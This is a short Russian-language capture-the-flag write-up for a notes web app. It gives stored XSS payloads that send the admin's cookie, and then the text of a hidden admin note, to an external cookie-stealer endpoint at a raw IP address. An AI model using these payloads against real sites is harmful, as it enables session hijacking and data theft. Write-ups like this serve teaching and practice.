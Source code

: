 1. Находим дополнительных флаг нажав кнопку append c незаполненным полем.

2. Проверям на xss передав <script>alert("TEST");</script> в notes. Видим, что проэксплуатировать его здесь получиться.

3. Видим, что http://notes.ctf2019.rocks/append принимает id юзера в параметрах. Из исходного кода страницы находим,
что у admin-а id=1.

4. Забираем куку админа передав в http://notes.ctf2019.rocks/append параметры 
append=<script>document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.сokkie);</script>
id=1   
и получаем доп флаг.

5. Смотрим js path к hidden записи админа.
Передаем  в http://notes.ctf2019.rocks/append параметры 
append=<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.querySelector('body > div:nth-child(2) > div:nth-child(1) > p:nth-child(2)').innerText);</script>
id=1 
и получаем влаг.

